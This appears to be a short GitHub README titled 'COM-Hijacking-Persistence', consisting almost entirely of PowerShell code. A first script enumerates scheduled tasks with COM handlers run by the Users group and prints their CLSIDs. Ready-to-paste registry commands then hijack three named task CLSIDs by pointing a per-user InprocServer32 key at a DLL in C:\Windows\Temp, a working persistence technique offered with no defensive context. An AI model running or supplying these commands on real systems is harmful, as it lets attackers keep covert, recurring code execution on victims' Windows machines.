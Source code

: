 # COM-Hijacking-Persistence

Show COM CLSIDs:
```
$Tasks = Get-ScheduledTask

foreach ($Task in $Tasks)
{
  if ($Task.Actions.ClassId -ne $null)
  {
    if ($Task.Triggers.Enabled -eq $true)
    {
      $usersSid = "S-1-5-32-545"
      $usersGroup = Get-LocalGroup | Where-Object { $_.SID -eq $usersSid }

      if ($Task.Principal.GroupId -eq $usersGroup)
      {
        Write-Host "Task Name: " $Task.TaskName
        Write-Host "Task Path: " $Task.TaskPath
        Write-Host "CLSID: " $Task.Actions.ClassId
        Write-Host
      }
    }
  }
}
```

CacheTask:
New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{0358B920-0AC7-461F-98F4-58E32CD89148}"
New-Item -Path "HKCU:Software\Classes\CLSID\{0358B920-0AC7-461F-98F4-58E32CD89148}" -Name "InprocServer32" -Value "C:\Windows\Temp\persistence.dll"
New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{0358B920-0AC7-461F-98F4-58E32CD89148}\InprocServer32" -Name "ThreadingModel" -Value "Both"

Calibration:
New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{B210D694-C8DF-490D-9576-9E20CDBC20BD}"
New-Item -Path "HKCU:Software\Classes\CLSID\{B210D694-C8DF-490D-9576-9E20CDBC20BD}" -Name "InprocServer32" -Value "C:\Windows\Temp\persistence.dll"
New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{B210D694-C8DF-490D-9576-9E20CDBC20BD}\InprocServer32" -Name "ThreadingModel" -Value "Free"

SystemSoundsService:
New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{2DEA658F-54C1-4227-AF9B-260AB5FC3543}"
New-Item -Path "HKCU:Software\Classes\CLSID\{2DEA658F-54C1-4227-AF9B-260AB5FC3543}" -Name "InprocServer32" -Value "C:\Windows\Temp\persistence.dll"
New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{2DEA658F-54C1-4227-AF9B-260AB5FC3543}\InprocServer32" -Name "ThreadingModel" -Value "Both"
